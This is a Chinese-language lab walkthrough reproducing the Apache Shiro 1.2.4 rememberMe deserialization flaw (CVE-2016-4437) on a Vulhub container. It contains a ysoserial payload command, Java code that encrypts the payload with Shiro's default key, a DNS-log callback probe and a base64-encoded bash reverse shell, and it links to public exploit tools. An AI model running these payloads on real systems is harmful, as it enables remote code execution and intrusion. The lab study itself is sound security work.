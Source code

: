 # Apache Shiro 1.2.4反序列化漏洞 CVE-2016-4437

## 漏洞描述

Apache Shiro是一款开源安全框架，提供身份验证、授权、密码学和会话管理。Shiro框架直观、易用，同时也能提供健壮的安全性。

Apache Shiro 1.2.4及以前版本中，加密的用户信息序列化后存储在名为remember-me的Cookie中。攻击者可以使用Shiro的默认密钥伪造用户Cookie，触发Java反序列化漏洞，进而在目标机器上执行任意命令。

## 环境搭建

Vulhub执行如下命令启动一个使用了Apache Shiro 1.2.4的Web服务：

```
docker-compose up -d
```

服务启动后，访问`http://your-ip:8080`可使用`admin:vulhub`进行登录。

## 漏洞复现

### 方法1 Shiro默认密钥加密Payload

使用ysoserial生成CommonsBeanutils1的Gadget：

```
java -jar ysoserial-0.0.6-SNAPSHOT-all.jar CommonsBeanutils1 "touch /tmp/success" > poc.ser
```

参考Vulhub，可以使用Shiro内置的默认密钥对Payload进行加密：

```java
package org.vulhub.shirodemo;

import org.apache.shiro.crypto.AesCipherService;
import org.apache.shiro.codec.CodecSupport;
import org.apache.shiro.util.ByteSource;
import org.apache.shiro.codec.Base64;
import org.apache.shiro.io.DefaultSerializer;

import java.nio.file.FileSystems;
import java.nio.file.Files;
import java.nio.file.Paths;

public class TestRemember {
    public static void main(String[] args) throws Exception {
        byte[] payloads = Files.readAllBytes(FileSystems.getDefault().getPath("/path", "to", "poc.ser"));

        AesCipherService aes = new AesCipherService();
        byte[] key = Base64.decode(CodecSupport.toBytes("kPH+bIxk5D2deZiIxcaaaA=="));

        ByteSource ciphertext = aes.encrypt(payloads, key);
        System.out.printf(ciphertext.toString());
    }
}
```

发送rememberMe Cookie，即可成功执行`touch /tmp/success`。

### 方法2 命令行 Shiro_exploit

此处使用[Shiro_exploit](https://github.com/insightglacier/Shiro_exploit)进行复现，首先，检测漏洞是否存在：

```
python shiro_exploit.py -t 3 -u http://192.168.174.128:8080 -p "ping -c 2 shiro.xxxxx.ceye.io"
```

dnslog平台接收到请求，证明漏洞存在。

![image-20220301110544180](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202203011105220.png)

执行反弹shell语句：

```
python shiro_exploit.py -t 3 -u http://192.168.174.128:8080 -p "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjE3NC4xMjgvOTk5OSAwPiYxCgo=}|{base64,-d}|{bash,-i}"
```

监听9999端口，接收反弹shell：

![image-20220301095455181](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202203010954296.png)

## 开源POC/EXP

- https://github.com/sv3nbeast/ShiroScan
- https://github.com/fupinglee/ShiroScan
- https://github.com/wyzxxz/shiro_rce_tool
- https://github.com/feihong-cs/ShiroExploit-Deprecated

